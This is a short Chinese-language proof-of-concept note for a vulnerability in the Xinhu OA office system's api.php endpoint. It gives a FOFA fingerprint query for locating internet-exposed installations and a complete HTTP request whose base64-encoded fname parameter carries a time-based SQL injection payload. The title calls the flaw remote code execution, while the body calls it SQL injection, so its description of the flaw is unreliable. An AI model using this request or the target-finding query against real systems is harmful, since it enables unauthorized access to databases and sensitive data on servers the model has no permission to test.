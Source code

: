 # 信呼OA办公系统后台api.php接口存在RCE

信呼OA办公系统是一个开源的在线办公系统。 信呼OA办公系统uploadAction存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。

## fofa

```java
icon_hash="1652488516"
```

## poc

```javascript
GET /xhoa/api.php?a=getmfilv&m=upload|api&d=task&fileid=1&fname=MScgYW5kIHNsZWVwKDYpIw== HTTP/1.1  
Host:  
sec-ch-ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"  
Sec-Fetch-Dest: empty  
Accept: application/json, text/javascript, */*; q=0.01  
Referer: http://127.0.0.1:81/xhoa/  
Cookie:   
Sec-Fetch-Mode: cors  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36  
Accept-Encoding: gzip, deflate, br, zstd  
Sec-Fetch-Site: same-origin  
Accept-Language: zh-CN,zh;q=0.9  
X-Requested-With: XMLHttpRequest  
sec-ch-ua-mobile: ?0  
sec-ch-ua-platform: "Windows"  
```

![image-20241128092859877](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411280928931.png)



## 漏洞来源

- https://forum.butian.net/article/613
